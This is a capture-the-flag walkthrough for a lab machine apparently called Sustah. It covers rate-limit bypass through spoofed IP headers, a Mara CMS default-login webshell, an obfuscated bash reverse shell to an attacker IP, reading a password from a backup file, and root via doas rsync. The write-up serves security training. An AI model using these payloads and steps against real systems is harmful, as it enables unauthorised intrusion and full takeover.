## TL;DR

In this challenge, we brute force the number for the spin wheel, while bypassing the rate limit checks, using the header `X-Remote-Addr: 127.0.0.1`.

Next, we get the path `/YouGotTh3P@th` which leads to `Mara CMS` based website. We exploit known authenticated `RCE` to get shell as `www-data`.

We moved to `kiran` using password we find inside `/var/backups/.bak.passwd`, and privilege escalate using `doas`, (which is like `sudo`), on `rsync`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache http server and port `8085` with Gunicorn WSGI.
```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2
ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUw
hTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPam
SRLzNWmJpwzaV65w=
|   256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Susta
|_http-server-header: Apache/2.4.18 (Ubuntu)
8085/tcp open  http    syn-ack ttl 62 Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
| http-methods: 
|_  Supported Methods: POST GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I'll add `sustah` to our `/etc/hosts`

### Brute forcing number for spin wheel while bypassing rate limit using http header

First, we can see this spin wheel at `http://sustah:8085/`.


Since we have `0.004` chances to win, it means we brute force numbers from 1 to 25000.

I tried to fuzz using `ffuf`.
We created the file `numbers.txt` using this command:
```bash
seq 1 25000 > numbers.txt
```

and this command was generated using `Formatify` Burp suite extension.
```bash
ffuf -w numbers.txt -u "http://sustah:8085/" \
  -X POST \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Priority: u=4" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
  -H "Referer: http://sustah:8085/" \
  -H "Connection: keep-alive" \
  -H "Upgrade-Insecure-Requests: 1" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data 'number=FUZZ' \
  -c \
  -v
```

However, very quickly I started getting `429`:



So, I tried my luck with changing the user-agent, and it didn't work. 
Then, I tried to give one of these IP-headers and the ip address `127.0.0.1`:
```bash
CACHE_INFO
CF_CONNECTING_IP
CF-Connecting-IP
CLIENT_IP
Client-IP
COMING_FROM
CONNECT_VIA_IP
FORWARD_FOR
FORWARD-FOR
FORWARDED_FOR_IP
FORWARDED_FOR
FORWARDED-FOR-IP
FORWARDED-FOR
FORWARDED
HTTP-CLIENT-IP
HTTP-FORWARDED-FOR-IP
HTTP-PC-REMOTE-ADDR
HTTP-PROXY-CONNECTION
HTTP-VIA
HTTP-X-FORWARDED-FOR-IP
HTTP-X-IMFORWARDS
HTTP-XROXY-CONNECTION
PC_REMOTE_ADDR
PRAGMA
PROXY_AUTHORIZATION
PROXY_CONNECTION
Proxy-Client-IP
PROXY
REMOTE_ADDR
Source-IP
True-Client-IP
Via
VIA
WL-Proxy-Client-IP
X_CLUSTER_CLIENT_IP
X_COMING_FROM
X_DELEGATE_REMOTE_HOST
X_FORWARDED_FOR_IP
X_FORWARDED_FOR
X_FORWARDED
X_IMFORWARDS
X_LOCKING
X_LOOKING
X_REAL_IP
X-Backend-Host
X-BlueCoat-Via
X-Cache-Info
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-For
X-Forwarded-Server
X-Forwarded-Host
X-From-IP
X-From
X-Gateway-Host
X-Host
X-Ip
X-Original-Host
X-Original-IP
X-Original-Remote-Addr
X-Original-Url
X-Originally-Forwarded-For
X-Originating-IP
X-ProxyMesh-IP
X-ProxyUser-IP
X-Real-IP
X-Remote-Addr
X-Remote-IP
X-True-Client-IP
XONNECTION
XPROXY
XROXY_CONNECTION
Z-Forwarded-For
ZCACHE_CONTROL
```

The headers will be at `ip_headers.txt`.

The idea is that the regular `ffuf` that gives me rate limit will running on background, while I'll check which header won't give me `429`
```bash
ffuf -w ip_headers.txt \
  -u "http://sustah:8085/" \
  -X POST \
  -H "Accept: text/html,applicaion/xhtml+xml,ation/xml;q=0.9,*/*;q=0.8" \
  -H "Priority: u=4" \
  -H "User-Agent: Mozilla/5.0 X1; Linux x86_64; o/20100101 Firefox/128.0" \
  -H "Referer: http://sustah:8085/" \
  -H "Connection: keep-alive" \
  -H "Upgrade-Insecure-Requests: 1" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "FUZZ: 127.0.0.1" \   
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data 'number=4' \
  -c \
  -v
```

We can see the header `X-Remote-Addr` gives us 200 http status code, when giving it the ip `127.0.0.1`:



Now, let's fuzz again,this time with `-fw 157` because this is the number of words in wrong response. 

```bash
ffuf -w numbers.txt -u "http://sustah:8085/" \
  -X POST \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Priority: u=4" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
  -H "Referer: http://sustah:8085/" \
  -H "Connection: keep-alive" \
  -H "Upgrade-Insecure-Requests: 1" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "X-Remote-Addr: 127.0.0.1" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data 'number=FUZZ' \
  -c \
  -v -fw 157
```

and we find the number, which is `10921`.



When guessing this number, we get the path:
```bash
/YouGotTh3P@th
```



### Exploit known RCE on Mara CMS when login with default credentials to get shell as www-data

When we go to:
```bash
http://sustah/YouGotTh3P@th/
```

we can see this `Mara CMS` front page:


Since this is version 7.2, we can use this exploit [https://www.exploit-db.com/exploits/48780](https://www.exploit-db.com/exploits/48780) to get authenticated `RCE`.


We can login with default credentials:
```bash
admin:changeme
```

and then upload our webshell, at `http://sustah/YouGotTh3P@th/codebase/dir.php?type=filenew`,
We can put this code:
```php
<?php system($_GET["cmd"]); ?>
```



Now, access `http://sustah/YouGotTh3P@th/img/webshell.php?cmd=whoami` to get the RCE:



pasting the payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



### Find kiran's password inside /var/backups/.bak.passwd

Inside `/var/backups` we can find the file `.bak.passwd`:
```bash
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
kiran:x:1002:1002:trythispasswordforuserkiran:/home/kiran:
```

Okay, let's move to kiran using `su kiran` with the password `trythispasswordforuserkiran`.



and get the user flag:
```bash
kiran@ubuntu-xenial:~$ cat user.txt 
6b18f161b4de63b5f72577c737b7ebc8
```

### Privilege Escalation to Root using doas on rsync

Using linpeas, we find `/usr/local/bin/doas`.

```bash
╔══════════╣ Doas Configuration
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#doas                                                           
Doas binary found at: /usr/local/bin/doas                                                                                                        
Doas binary has SUID bit set!
-rwsr-x--x 1 root root 38616 Dec  6  2020 /usr/local/bin/doas
-e 
Checking doas.conf files:
Found: /usr/local/bin/../etc/doas.conf
 permit nopass kiran as root cmd rsync
Found: /usr/local/etc/doas.conf
 permit nopass kiran as root cmd rsync
```



Basiclly, this is like `sudo`. As we can see, we can execute:
```bash
/usr/local/bin/doas rsync
```
and then `rsync` will get executed as admin.

We can privilege escalate using this [https://gtfobins.github.io/gtfobins/rsync/](https://gtfobins.github.io/gtfobins/rsync/).

> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

> sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

So, let's execute:
```bash
/usr/local/bin/doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```



we got the root flag:
```bash
kiran@ubuntu-xenial:~$ /usr/local/bin/doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
afbb1696a893f35984163021d03f6095
```